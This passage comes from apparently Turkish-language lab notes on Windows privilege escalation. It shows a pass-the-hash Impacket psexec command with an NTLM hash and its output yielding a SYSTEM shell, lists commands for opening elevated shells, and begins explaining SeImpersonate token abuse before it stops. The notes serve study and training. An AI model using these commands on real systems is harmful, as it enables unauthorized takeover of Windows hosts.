 
Buradan sonra Pass-the-hash attack ile hedef makineye SYSTEM kullanıcısı olarak gireriz

```
python3.9 /opt/impacket/examples/psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:13a04cdcf3f7ec41264e568127c5ca94 administrator@MACHINE_IP
```
```

Impacket v0.9.24.dev1+20210704.162046.29ad5792 - Copyright 2021 SecureAuth Corporation

[*] Requesting shares on 10.10.175.90.....
[*] Found writable share ADMIN$
[*] Uploading file nfhtabqO.exe
[*] Opening SVCManager on 10.10.175.90.....
[*] Creating service RoLE on 10.10.175.90.....
[*] Starting service RoLE.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```


> Not 2: GUI yoksa "Run as administrator yerine aşağıdaki komutları da deneyebilirsin"
> 
> 1. Powershell Üzerinden
> ```
> Start-Process cmd -Verb RunAs
> ```
> 
> ```
> Start-Process powershell -Verb RunAs
> ```
> 
> 2. PsExec ile (Sysinternals)
> ```
> psexec -i -s cmd.exe
> ```
> Bu komut SYSTEM yetkisiyle cmd açar (yöneticiden bile yüksek).
> 
> 3. Runas komutu ile
> ```
> runas /user:Administrator cmd
> ```

### SeImpersonate / SeAssignPrimaryToken

Impersonation, bir kullanıcı adına process veya thread başlatabilme yetkisidir. Bunu bir FTP server örneği ile anlayabiliriz
<img width="920" height="400" alt="6e5768172fbb97d6777dde7e15a3fcfc" src="https://github.com/user-attachments/assets/6d5f66b0-8315-404b-b9f4-6c21131658b0" />
FTP userının tokeni kullanarak bu dosyalara erişmek güvenli bir yöntem değil. Bu nedenle ftp server'ın kullanıcıyı impersonate etmesi gerekir.
<img width="920" height="400" alt="89e74e14454edc10fa2bd541ac359772" src="https://github.com/user-attachments/assets/2be86ad1-628a-4518-9fd6-1a00344576f8" />
Saldırganın yetki yükseltmesi için aşağıdaki adımları takip etmesi gerekir:
